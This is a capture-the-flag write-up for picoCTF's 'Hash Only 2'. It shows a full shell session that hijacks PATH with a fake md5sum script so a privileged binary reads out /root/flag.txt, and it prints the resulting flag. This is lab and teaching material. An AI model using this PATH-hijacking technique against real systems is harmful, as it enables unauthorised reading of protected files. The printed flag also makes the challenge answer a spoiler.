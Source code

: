 # Hash Only 2

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Additional details will be available after launching your challenge instance.


## Answer

This one is super similar to hash only 1, this is how i did it:


``` 
ctf-player@pico-chall$ bash
ctf-player@challenge:~$ ls
ctf-player@challenge:~$ echo '#!/bin/bash' > md5sum
ctf-player@challenge:~$ echo 'cat "$1"' >> md5sum
ctf-player@challenge:~$ chmod +x md5sum
ctf-player@challenge:~$ pwd
/home/ctf-player
ctf-player@challenge:~$ export PATH=/home/ctf-player:$PATH
ctf-player@challenge:~$ flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_6e3b0209}ctf-player@challenge:~$ Connection to rescued-float.picoctf.net closed by remote host.
Connection to rescued-float.picoctf.net closed.
```
